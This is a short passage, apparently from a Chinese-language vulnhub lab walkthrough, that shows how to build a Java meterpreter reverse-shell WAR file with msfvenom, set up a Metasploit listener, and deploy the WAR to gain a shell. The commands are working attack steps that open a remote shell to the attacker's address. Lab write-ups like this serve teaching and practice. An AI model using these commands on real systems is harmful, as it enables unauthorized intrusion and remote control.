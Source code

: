 ```
由于可以进行war包部署，所以可以部署war包木马。
msfvenom -p java/meterpreter/reverse_tcp lhost=192.168.110.100 lport=7777 -f war -o kali.war
```

![image-20241205194519593](vulnhub靶场实战/image-20241205194519593.png)	

```
进行监听。
msfconsole
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set lhost 192.168.110.100
set lport 7777
run
```

![image-20241205194825460](vulnhub靶场实战/image-20241205194825460.png)	

```
部署木马war包，并点击该站点，即可触发木马反弹shell.
```

![image-20241205194931140](vulnhub靶场实战/image-20241205194931140.png)	
